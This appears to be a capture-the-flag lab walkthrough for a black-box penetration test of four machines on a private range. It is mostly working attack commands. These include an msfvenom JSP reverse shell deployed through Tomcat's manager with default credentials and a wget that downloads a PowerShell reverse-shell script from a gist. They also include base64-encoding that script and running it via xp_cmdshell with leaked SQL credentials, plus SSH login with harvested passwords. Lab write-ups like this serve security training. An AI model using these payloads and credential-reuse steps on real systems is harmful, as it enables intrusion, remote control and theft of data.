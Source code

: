 ```yaml
---
description: >-
  You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range).
  Your goal is to read the flag file on each machine.
---
```


# Black Box Test 1

## Discover live hosts on the network

```bash
sudo nmap -sn 172.16.64.0/24 --exclude 172.16.64.10 -oN hostAlive.nmap
cat hostAlive.nmap | grep for | awk {'print $5'} > ips.txt
sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oG portScan.grep
```

{% hint style="info" %}
Find more [**nmap options**](https://ferx.gitbook.io/wiki/linux/command-line/nmap).
{% endhint %}

### Hosts Alive

| Host | OS |
| :--- | :--- |
| 172.16.64.101 | Linux |
| 172.16.64.140 | Linux |
| 172.16.64.182 | Linux |
| 172.16.64.199 | Windows |

## Open Ports and Running Services

###  172.16.64.101

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 |
| 8080 | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 9080 | http | Apache Tomcat/Coyote JSP engine 1.1 |

### 172.16.64.140

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 80 | http | Apache httpd 2.4.18 |

### 172.16.64.182

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 |

### 172.16.64.199

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 135 | msrpc | Microsoft Windows RPC |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | microsoft-ds |  |
| 1433 | ms-sql-s | Microsoft SQL Server 2014 |

## Machines

### 172.16.64.101

Apache Tomcat has [http://172.16.64.101:8080/manager/html](http://172.16.64.101:8080/manager/html) as a management url. In case your authentication fail several times, a 401 page is presented, with a default username and password:

![](../../.gitbook/assets/image.png)

```bash
# Terminal 1
nc -l -p 8080

# Terminal 2
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.64.10 LPORT=8080 -f war -o revshell.war

# 1. Upload to http://172.16.64.10/manager/html
# 2. Open the suggested url in your browser to execute the reverse shell
# 3. Go to your opened nc listener on Terminal one and execute:
find / | grep flag.txt
/home/developer/flag.txt
/home/adminels/Desktop/flag.txt

# Your results should be something like:
cat /home/developer/flag.txt
Congratulations, you got it!
cat /home/adminels/Desktop/flag.txt
You did it!
```

### 172.16.64.140

Using Dirbuster we find a secret folder called **project**. This url is accessible under **admin/admin** credentials.

![](../../.gitbook/assets/image%20%281%29.png)

![We find suspicious files under /project/backup/test](../../.gitbook/assets/image%20%283%29.png)

![](../../.gitbook/assets/image%20%282%29.png)

{% embed url="http://172.16.64.140/project/backup/test/sdadas.txt" %}

```text
Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt
```

### 172.16.64.199

```bash
# Grab payload
wget https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1;

# Substitute ip and port
sed -i 's/127.0.0.1/172.16.64.10/; s/413/1234/' mini-reverse.ps1

# Encode payload
cat mini-reverse.ps1 | iconv -f ascii -t utf16 | tail -c +3  | base64 -w 0 > encoded_payload
cat encoded_payload # We'll use this payload in our shell
# Open listener In your terminal
```

```bash
nc -lvnp 1234
```

```bash
# Use the credentials found in the fuzzed file under 
# project/backup/test in the previous machine
python2 /usr/share/doc/python3-impacket/examples/mssqlclient.py fooadmin:fooadmin@172.16.64.199
enable_xp_cmdshell
RECONFIGURE
xp_cmdshell whoami
xp_cmdshell powershell -e <payload_from_previous_step>
```

```text
cd c:\
where /r c:\ flag.txt
cd c:\Users\AdminELS\Desktop\
cat flag.txt
Congratulations! You exploited this machine! 
PS C:\Users\AdminELS\Desktop> cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAlGWzjgKVHcpaDFvc6877t6ZT2ArQa+OiFteRLCc6TpxJ/lQFEDtmxjTcotik7V3DcYrIv3UsmNLjxKpEJpwqELGBfArKAbzjWXZE0VubmBQMHt4WmBMlDWGcKu8356blxom+KR5S5o+7CpcL5R7UzwdIaHYt/ChDwOJc5VK7QU46G+T9W8aYZtvbOzl2OzWj1U6NSXZ4Je/trAKoLHisVfq1hAnulUg0HMQrPCMddW5CmTzuEAwd8RqNRUizqsgIcJwAyQ8uPZn5CXKWbE/p1p3fzAjUXBbjB0c7SmXzondjmMPcamjjTTB7kcyIQ/3BQfBya1qhjXeimpmiNX1nnQ== rsa-key-20190313###ssh://developer:dF3334slKw@172.16.64.182:22#############################################################################################################################################################################################
```

We find at the end of the `id_rsa.pub` file there are some ssh credentials for the remaining active machine:

### 172.16.64.182

We use the credentials harvested in the Windows machine:

```bash
sshpass -p dF3334slKw ssh developer@172.16.64.182
find . | grep flag
cat flag.txt 
Congratulations, you got it!
```

